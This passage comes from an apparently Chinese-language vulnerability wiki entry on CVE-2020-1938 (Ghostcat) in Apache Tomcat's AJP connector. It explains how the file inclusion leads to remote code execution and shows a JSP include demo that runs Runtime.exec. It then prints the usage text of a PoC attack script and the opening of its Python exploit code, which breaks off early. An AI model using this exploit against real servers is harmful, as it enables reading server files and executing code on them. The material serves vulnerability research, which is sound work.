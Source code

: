 **后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

    Copy to clipboard//1.jsp
    <%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
    <%@ include file="1.txt" %>

    //1.txt
    <%@ Runtime.getRuntime().exec("open /System/Applications/Calculator.app");%>

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在
**AjpProcessor** 做 **prepareRequest**
处理的时候会根据字节选择相关的请求方式。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId46.png)

### poc

    (py27)> python .\cve-2020-1938-poc.py -h
    usage: cve-2020-1938-poc.py [-h] [-p PORT] [-w WEBAPP] [-f FILE] [-l] target

    positional arguments:
      target                Hostname or IP to attack

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  AJP port to attack (default is 8009)
      -w WEBAPP, --webapp WEBAPP
                            Which webapp to attack (default is ROOT
      -f FILE, --file FILE  file path :(WEB-INF/web.xml)
      -l, --lfi             local file include

### python2.7

    #!/usr/bin/env python
    # CNVD-2020-10487  Tomcat-Ajp lfi
    # Based on: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/
    #
    # Some references:
    # https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
    import socket
    import struct
    import argparse


    def pack_string(s):
        if s is None:
            return struct.pack(">h", -1)
        l = len(s)
        return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
